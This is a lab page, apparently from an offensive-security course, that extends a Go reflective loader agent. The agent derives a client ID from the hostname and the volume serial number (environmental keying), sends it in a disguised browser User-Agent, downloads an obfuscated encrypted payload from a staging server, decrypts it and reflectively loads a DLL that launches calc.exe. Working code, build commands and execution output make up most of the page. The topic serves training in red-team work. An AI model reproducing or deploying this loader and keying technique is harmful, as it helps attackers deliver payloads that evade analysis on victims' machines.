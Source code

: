 ```yaml
---
showTableOfContents: true
title: "Implement Client ID and Key Derivation (Lab 8.2)"
type: "page"
---
```

## Goal
We'll now implement the final piece of the client-side logic for this module, and in fact the course as a whole: generating the client ID dynamically based on system information and integrating it fully into the communication and key derivation process.

So we'll only modify our agent/loader in this lab, and we'll pick up exactly where we left off over there. In that lab we hardcoded our clientID value as `MyTestClient-9876`, but now we want to generate it dynamically based on system characteristics (hostname and volume serial number). We'll then use this dynamically generated ID, along with the current timestamp, in both the User-Agent header sent to the server and in the client-side key derivation process to ensure it matches the key derived by the server.


## Code
Add the following function to the loader/agent application from Lab 8.1


```go
// Get system information for client identification
func getEnvironmentalID() (string, error) {
	// Get system volume information for environmental keying
	var volumeName [256]uint16 // Buffer for volume name (not used for ID)
	var volumeSerial uint32    // Variable to store the serial number

	// GetVolumeInformation for C: drive
	// We pass nil for pointers we don't need, except volumeSerial.
	err := windows.GetVolumeInformation(
		windows.StringToUTF16Ptr("C:\\"), // Target volume C:
		&volumeName[0],                   // Buffer for name (optional)
		uint32(len(volumeName)),          // Size of name buffer
		&volumeSerial,                    // Pointer to store serial number <<< IMPORTANT
		nil,                              // Pointer for max component length (optional)
		nil,                              // Pointer for file system flags (optional)
		nil,                              // Buffer for file system name (optional)
		0,                                // Size of file system name buffer
	)
	if err != nil {
		return "", fmt.Errorf("failed to get volume info: %w", err)
	}

	// Get hostname
	hostname, err := os.Hostname()
	if err != nil {
		return "", fmt.Errorf("failed to get hostname: %w", err)
	}

	// Combine information to create a unique but predictable client ID
	// Format: <first 5 chars of hostname>-<volume serial as hex>
	shortName := hostname
	if len(hostname) > 5 {
		shortName = hostname[:5] // Truncate hostname if longer than 5 chars
	}

	// Use Sprintf with %x verb to format the serial number as lowercase hex
	clientID := fmt.Sprintf("%s-%x", shortName, volumeSerial)
	fmt.Printf("[+] Generated Client ID: %s\n", clientID)

	return clientID, nil
}
```

And now we'll just need to make a small adjustment to `main()` to use this new function to derive the `clientID`.

Replace this line:
```go
clientID := "MyTestClient-9876"
```

With:
```go
fmt.Println("[+] Generating client ID from environment...")
clientID, err := getEnvironmentalID()
if err != nil {
    log.Fatalf("[-] Failed to generate client ID: %v", err)
}
```

## Code Breakdown
- The hardcoded placeholder `clientID` is removed.
- Instead, it's now being assigned the return value `getEnvironmentalID`
- This function combines the first 5 characters of the host name with the HD's serial number.
- The rest of the execution flow is the exact same, we are just now using this dynamically generated clientID value instead of the hardcoded value as we did before.


## Instructions
Run the exact same server from Lab 8.1 - this remains unchanged. You can once again either use `go build`, or from the directory containing the server, private key, cert, and `calc_dll.dll`simply run:

```
go run .
```

Then, compile the new loader+agent application, and copy it over to target system.

```shell
GOOS=windows GOARCH=amd64 go build  
```

Once on your target system simply invoke our new application.

## Results
```shell
PS C:\Users\vuilhond\Desktop> .\reflect_agent.exe
[+] Reflective Loader Agent (Network Download)
[+] Generating client ID from environment...
[+] Generated Client ID: DESKT-5c9150c8
[+] Downloading payload...
[+] Connecting to server: https://192.168.2.123:8443/update
[+] Using Timestamp: 1745685920
[+] Using ClientID: DESKT-5c9150c8
[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8
[+] Downloaded 111493 bytes of obfuscated payload.
[+] Deriving decryption key...
    Using Timestamp for Key: 1745685920
    Using ClientID for Key: DESKT-5c9150c8
[+] Decrypting downloaded content...
[+] Decryption complete. Resulting size: 111493 bytes.

// REST OF OUTPUT IS THE SAME AS BEFORE

```

And of course we'll also see `calc.exe` pop up.

## Discussion
We can now see that we are dynamically generating a client ID (`Generated Client ID: DESKT-5c9150c8`), and that we are then using this value in our User-Agent (`[+] Sending User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) rv:1745685920-DESKT-5c9150c8`).

And of course the fact that we are able to once again launch `calc.exe` confirms that the agent correctly generated the client ID, sent it to the server, and used it (along with the correct timestamp) to derive the appropriate decryption key, matching the key derived by the server based on the received User-Agent. This completes the integration of the dynamic client identification with the key derivation process.

## Conclusion
That wraps it up it for this course, in the next section we'll review what we've done, as well as discuss the weakness of our current implementation, which we will then improve on in our next course :D


---
[|TOC|]({{< ref "../moc.md" >}})
[|PREV|]({{< ref "cs_lab.md" >}})
